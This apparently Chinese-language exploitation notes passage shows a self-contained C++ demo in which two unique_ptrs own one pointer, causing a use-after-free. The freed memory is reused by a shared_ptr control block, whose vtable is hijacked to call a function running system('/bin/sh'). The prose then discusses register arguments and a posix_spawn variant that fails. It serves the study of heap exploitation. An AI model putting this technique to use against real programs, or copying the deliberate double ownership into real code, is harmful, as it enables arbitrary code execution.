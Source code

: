 ```c++
#include <stdlib.h>
#include <iostream>
#include <memory>

struct TQWord{
    size_t QWord_1;
    size_t QWord_2;
    size_t QWord_3;
};

void unreachable(const char** command){
    system(*command);
}

size_t cmd = 0x0068732f6e69622f; // b"/bin/sh"

TQWord fakeVtable{cmd, 0xdeadbeef, (size_t)&unreachable};

int main(){    
    TQWord *raw_ptr = new TQWord{114, 514, 1919810};

    std::unique_ptr<TQWord> unique_ptr_1(raw_ptr);
    std::unique_ptr<TQWord> unique_ptr_2(raw_ptr);

    unique_ptr_1.reset();

    std::shared_ptr<size_t> shared_ptr = std::make_shared<size_t>(1919810);
    unique_ptr_2->QWord_1 = (size_t)&fakeVtable;
    
    return 0;
}
```
![Screenshot 2025-02-07 003143.png](https://www.helloimg.com/i/2025/02/07/67a4e27910ad2.png)

##### &emsp;&emsp;&emsp;这么个写法还是美中不足, 虚表函数的第一个参数(```rdi```)都是虚表指针(或者说地址), 导致按照上述的写法, 传给```unreachable```是```&&cmd```, 需要一次解引用<br>
##### &emsp;&emsp;&emsp;但是话又说回来, 如果虚表地址填上```cmd```, 确实不用解引用, 但是没法虚表劫持了<br>
##### &emsp;&emsp;&emsp;于是想到不用```system()```, 可以发现```rsi```指向的是```shared_ptr```指向的数据区域, 这一部分是可控的
![Screenshot 2025-02-07 120625.png](https://www.helloimg.com/i/2025/02/07/67a5b70cb4242.png)
##### &emsp;&emsp;&emsp;于是, 想到把数据改成```/bin/sh\x00```, 这样就有一个```const char*```的参数, 然后后门函数方面选择```posix_spawn```, 下面是参数表, 可以看到它的第二个参数是```path```
```c++
int posix_spawn(pid_t *restrict pid, 
                const char *restrict path,
                const posix_spawn_file_actions_t *file_actions,
                const posix_spawnattr_t *restrict attrp,
                char *const argv[restrict], char *const envp[restrict]);
```
##### &emsp;&emsp;&emsp;但是还是有问题, 函数本身对```file_actions```有检查, ```rdx```为nullptr可以绕过检查, 但调用这几个虚表函数时```rdx```都不是nullptr, 出现以下```perror```
```
posix_spawn failed: Bad file descriptor
``` 